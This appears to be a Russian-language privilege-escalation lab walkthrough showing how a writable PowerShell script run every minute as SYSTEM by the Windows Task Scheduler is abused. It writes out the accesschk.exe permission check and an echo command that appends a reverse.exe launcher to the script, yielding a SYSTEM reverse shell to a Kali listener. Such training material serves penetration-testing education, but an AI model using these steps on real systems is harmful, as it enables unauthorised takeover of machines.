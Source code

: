 # 🐾 13. Планировщик задач

## 📜 Описание задания
В этом задании мы будем работать с планировщиком задач Windows. Скрипт `C:\DevTools\CleanUp.ps1` выполняется каждую минуту с правами SYSTEM. Мы изменим его содержимое, чтобы добавить команду для запуска реверсного шелла с правами SYSTEM.

---

## 🔍 Шаг 1: Просмотр содержимого скрипта CleanUp.ps1
Для начала, просмотрите содержимое скрипта `C:\DevTools\CleanUp.ps1`:

'`type C:\DevTools\CleanUp.ps1`'

### 📋 Ожидаемый вывод
- Убедитесь, что вы видите содержимое скрипта `CleanUp.ps1`, которое будет выполняться от имени SYSTEM каждую минуту.
![image](https://github.com/user-attachments/assets/819d7e77-f3ae-46fd-8185-c891e2e845e3)

---

## 🔑 Шаг 2: Проверка прав на запись в файл
Используя инструмент `accesschk.exe`, проверьте, есть ли у вас права на запись в файл `CleanUp.ps1`:

'`C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1`'

### 📋 Ожидаемый вывод
- Убедитесь, что у вас есть права на запись в файл, что позволит нам изменить его содержимое.
![image](https://github.com/user-attachments/assets/3e753ba5-e481-41b8-8046-fe5d11402141)

---

## 📝 Шаг 3: Добавление команды для реверсного шелла
Теперь, запустив слушатель на Kali, добавьте строку в файл `C:\DevTools\CleanUp.ps1`, чтобы он запускал ваш исполнимый файл `reverse.exe` с правами SYSTEM:

'`echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1`'

### 📋 Ожидаемый вывод
- Убедитесь, что строка с командой запуска реверсного шелла была успешно добавлена в файл.

---

## 🎯 Шаг 4: Ожидание выполнения задачи
Подождите, пока планировщик задач не выполнит задачу, что должно привести к запуску реверсного шелла с правами SYSTEM.

### 📋 Ожидаемый вывод
- Убедитесь, что реверсный шелл был успешно запущен и вы получили доступ к машине с правами SYSTEM.
![image](https://github.com/user-attachments/assets/f9264158-596b-4c1f-8f1d-d39706dee970)

---

## 🎉 Поздравления!
Вы успешно изменили планировщик задач и получили доступ к машине с правами SYSTEM через реверсный шелл! 🎊

---

## 📌 Примечания
- Будьте осторожны при использовании полученных знаний, всегда действуйте в рамках разрешенных тестов на проникновение.
